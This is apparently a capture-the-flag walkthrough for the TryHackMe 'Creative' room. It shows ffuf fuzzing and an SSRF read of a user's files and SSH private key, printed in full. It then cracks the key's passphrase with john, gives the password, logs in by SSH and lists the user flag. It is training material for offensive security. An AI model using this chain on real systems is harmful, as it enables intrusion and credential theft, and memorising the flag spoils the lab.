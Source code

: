 ### 13-Apr-24-Sat

[TryhackMe | Creative](https://tryhackme.com/r/room/creative)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/29d6a090-38d6-4ab4-8407-afa8a4a49cab)

http://creative.thm/

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/33ac429e-1b1b-4d2a-8883-f37ec4d5a2f0)

http://creative.thm/components.html

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/8a833c75-1f92-4c30-9c40-8a8e0219f848)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/1101ca84-bccb-466e-88a1-36c5e31b1b05)

```
ffuf -u http://creative.thm/FUZZ -w /usr/share/wordlists/dirb/big.txt
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/ce2ab09e-62a1-45d2-aaab-c8afa9985dcc)

```
ffuf -u http://creative.thm/ -w /usr/share/wordlists/dirb/big.txt -H "Host: FUZZ.creative.thm" -fs 178
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a03c9a16-ce32-4280-bfb3-58a76c687f8a)

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/7bb74a1a-f452-4578-9119-f7d32902d9cf)

http://beta.creative.thm/

http://localhost:1337/home/saad/user.txt

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/f85f58ac-022f-41ac-9c0f-932c2cda4c20)

```
9a1ce90a7653d74ab98630b47b8b4a84
```

http://localhost:1337/home/saad/.ssh/id_rsa

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
ksrXEYjaMdndnvxBZ0zi9T+ywag=
-----END OPENSSH PRIVATE KEY-----
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/656e89b0-2cf0-45eb-98e7-81d919ce06d9)

```
ssh2john id_rsa_saad > id_rsa_saad.johnhash
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_saad.johnhash
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/59e8011c-d350-40f2-954a-beda77fac1ed)

*saad:sweetness*

```
ssh saad@creative.thm -i id_rsa_saad
```

![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/4d4e4272-c6dd-4dba-b83f-27474d8927f0)

```
cat start_server.py 
```

```
from http.server import HTTPServer, SimpleHTTPRequestHandler

httpd = HTTPServer(('localhost', 1337), SimpleHTTPRequestHandler)
httpd.serve_forever()
```

